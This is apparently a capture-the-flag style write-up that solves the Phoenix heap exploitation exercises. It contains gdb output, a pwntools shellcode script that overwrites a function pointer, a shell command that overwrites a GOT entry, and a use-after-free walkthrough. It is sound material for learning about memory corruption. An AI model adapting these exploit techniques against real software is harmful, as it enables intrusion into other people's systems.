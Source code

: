 # Heap

There is multiple way of controlling the flow of a program, by overriding some part of the memory. In this section we will focus on heap memory overflow.

By example, you can override the content of the heap, to override variable or the GOT.

To got further, you have to understand the structure on how malloc manage the heap allocation: https://sourceware.org/glibc/wiki/MallocInternals

For those examples, you will need to install Phoenix: https://exploit.education/phoenix/getting-started/

## Heap Zero

### Exercise

Description: https://exploit.education/phoenix/heap-zero/

### Solution

We need to know where the function `winner` is implemented: `0x400abd`

```
$ gdb -batch -ex 'file /opt/phoenix/amd64/heap-zero' -ex 'disassemble winner'
Dump of assembler code for function winner:
   0x0000000000400abd <+0>:     push   %rbp
...
```

The function pointer gets overrided by `NNNNOOO`:
```
$ ./heap-zero AAAAAABBBBBBCCCCCCDDDDDDEEEEEEFFFFFFGGGGGGHHHHHHIIIIIIJJJJJJKKKKKKLLLLLLMMMMMMNNNNNNOOOOOOOO
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0x7ffff7ef5010, fp is at 0x7ffff7ef5060, will be calling 0x4f4f4f4f4e4e4e4e
Segmentation fault (core dumped)
```

> Sadly, the 64bit version of this challenge, is more complicated, as addresses contain null byte, preventing strcpy to proceed with our redirection.

To overcome this issue, we will inject a small binary shellcode, in our buffer, that jump to the correct address:

```asm
push 0x1010101 ^ 0x400abd
xor dword ptr [rsp], 0x1010101
ret
```

We need to override the pointer address to the begining of our data buffer, where our shellcode is injected:

```py
# You need to install pwntools, to import pwnlib
import pwnlib
import struct

BUFFER = 0x7ffff7ef5010
WINNER = 0x400abd

pwnlib.context.arch = 'amd64'
shellcode = pwnlib.shellcraft.amd64.push(WINNER)
shellcode += pwnlib.shellcraft.amd64.ret()

shellcode = pwnlib.asm.asm(shellcode, arch='amd64')

buf = shellcode + b"." * (80 - len(shellcode))
buf += struct.pack("<Q", BUFFER)

print(buf)
```

We send the payload to our command line:
```
./heap-zero `python ~/heap-zero.py`
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0x7ffff7ef5010, fp is at 0x7ffff7ef5060, will be calling 0x7ffff7ef5010
Congratulations, you have passed this level
```

## Heap One

### Exercise

Description: https://exploit.education/phoenix/heap-one/

### Solution

> For this exploit, we will operate on the x86 version of the binary due to limitation we encounter on writing null bytes through strcpy.

```
$ gdb ./heap-one
(gdb) r AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO 0000
Starting program: /opt/phoenix/amd64/heap-one AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO 0000

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7d85c06 in stpcpy () from /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1
(gdb) x/2wx $esp
0xffffd524:     0xf7ffb000      0x46464646
```
We notice that the program, tries to write `argv[2]` at `0x46464646` (`FFFF`)).
If we could override the GOT (for the `puts` call), with an address we control, we could redirect the control flow.

```
(gdb) disassemble main
Dump of assembler code for function main:
...
   0x08048883 <+174>:   call   0x80485b0 <puts@plt>
...
(gdb) disassemble 0x80485b0
Dump of assembler code for function puts@plt:
   0x080485b0 <+0>:     jmp    DWORD PTR ds:0x804c140
   0x080485b6 <+6>:     push   0x28
   0x080485bb <+11>:    jmp    0x8048550
End of assembler dump.
(gdb) disassemble winner
Dump of assembler code for function winner:
   0x0804889a <+0>:     push   ebp
...
End of assembler dump.
```

It seems `i2->name` could be assigned to `0x804c140` (GOT entry, for `puts`), so that the next puts call, will redirect it to the winner function (`0x0804889a`).

Let's give it a try:

```sh
$ ./heap-one $(echo -e "AAAABBBBCCCCDDDDEEEE\x40\xc1\x04\x08") $(echo -e "\x9a\x88\x04\x08")
Congratulations, you've completed this level @ 1592169438 seconds past the Epoch
```

## Heap Two

### Exercise

Description: https://exploit.education/phoenix/heap-two/

### Solution

This challenge, rely on the fact that a memory segment, that was free-ed, is not dereferenced, and can still be accessible.
After executing the `reset` command: `auth->auth` is still pointed in memory at the adress: `0x600e40 + 0x20`.
By realocating memory (on the same place, using the `service` command, you override the content of `auth->auth`)
If you execute `login`, you get connected, because the service name get's written on that memory segment.

```
ange@paradize:/opt/phoenix/i486$ ./heap-two
$ ./heap-two
Welcome to phoenix/heap-two, brought to you by https://exploit.education
[ auth = 0, service = 0 ]
auth .
[ auth = 0x600e40, service = 0 ]
reset
[ auth = 0x600e40, service = 0 ]
service .
[ auth = 0x600e40, service = 0x600e40 ]
login
you have logged in already!
[ auth = 0x600e40, service = 0x600e40 ]
```

## Heap Three

### Exercise

Description: https://exploit.education/phoenix/heap-three/

### Solution

The solution is well described in Lucas Bader's blog, I highly encourage you to read it: https://www.lucas-bader.com/ctf/2019/05/02/heap3
